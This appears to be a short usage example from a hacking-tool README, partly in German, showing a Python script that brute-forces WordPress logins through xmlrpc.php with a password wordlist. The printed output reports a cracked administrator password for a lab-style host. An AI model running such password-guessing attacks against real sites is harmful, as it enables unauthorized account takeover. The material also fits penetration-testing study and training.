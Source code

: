 ## Example

### Wörterbuch Angriff
* ` ./brute_force_wp.py --url http://wordpress -U webadmin mibi -p ../password_collector/wordlist_374.lst -m x`

```
| Start Brute Force Script
[?] Load 2 Usernames and 374 Passwords
[#] Use Methode: xmlrpc.php
Username: webadmin - Progress: [278/374]  H@ckingPython! <= Valide - is Administrator

Username:     mibi - Progress: [374/374]   nostrumM@gnam

| Findings:
webadmin : H@ckingPython! - is Administrator

| End
```
